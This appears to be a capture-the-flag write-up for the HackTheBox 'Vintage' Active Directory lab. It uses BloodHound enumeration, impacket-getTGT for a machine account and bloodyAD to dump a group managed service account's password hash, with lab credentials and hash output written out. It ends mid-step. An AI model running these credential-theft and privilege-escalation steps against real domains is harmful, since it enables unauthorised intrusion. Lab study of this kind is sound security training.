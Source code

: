 ```
# numEntries: 17
# numReferences: 3
```
We will see there is Computer with a domain name of which `FS01.vintage.htb` we will add this to /etc/hosts
```
10.10.11.45 vintage.htb DC01 DC01.vintage.htb FS01.vintage.htb
```
we will now change /etc/resove.conf for bloodhound
```
cat /etc/resolv.conf
nameserver 1.1.1.1
nameserver 8.8.8.8
nameserver 10.10.11.45
```
We will now synchronise timezones because Kerberos authentication has time zone restrictions
```
ntupdate dc01.vintage.htb
```
We will now collect information
```
bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb            
```
importing data into bloodhound, we see L.BIANCHI_ADM@VINTAGE.HTB is in domain admin group and has admin privs
![[VINTAGE BLOODHOUND.png]]
and GMSA01$VINTAGE.HTB can add themselves to admin group 
![[VINTAGE BLOODHOUND2.png]]
Intra-domain relations 
![[VINTAGE BLOODHOUND3.png]]
From FS01 to GMSA01 we can see that FS01 can read the password of GMS 

then GMS can add itself to admin group 
![[VINTAGE BLOODHOUND4.png]]
Use GetTGT.py provide password, hash or aeskey to request TGT and save it in ccache format 
```
impacket-getTGT  -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
 
[*] Saving ticket in FS01$.ccache
```
Now we will set this as environment variable to specify cache file that the kerberos client should use 
```
export KRB5CCNAME=FS01\$.ccache
```
We will use bloodyAD to interact with AD, through kerberos authentication, to obtain the password (stored in attribute) GMSA01$ of the managed service account named from specified AD domain controller msDS-ManagedPassword 
```
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
msDS-ManagedPassword.B64ENCODED: rbqGzqVFdvxykdQOfIBbURV60BZIq0uuTGQhrt7I1TyP2RA/oEHtUj9GrQGAFahc5XjLHb9RimLD5YXWsF5OiNgZ5SeBM+WrdQIkQPsnm/wZa/GKMx+m6zYXNknGo8teRnCxCinuh22f0Hi6pwpoycKKBWtXin4n8WQXF7gDyGG6l23O9mrmJCFNlGyQ2+75Z1C6DD0jp29nn6WoDq3nhWhv9BdZRkQ7nOkxDU0bFOOKYnSXWMM7SkaXA9S3TQPz86bV9BwYmB/6EfGJd2eHp5wijyIFG4/A+n7iHBfVFcZDN3LhvTKcnnBy5nihhtrMsYh2UMSSN9KEAVQBOAw12g==
```
Attempt to obtain a Kerberos ticket from AD domain controller using the known GMSA account hash
```
```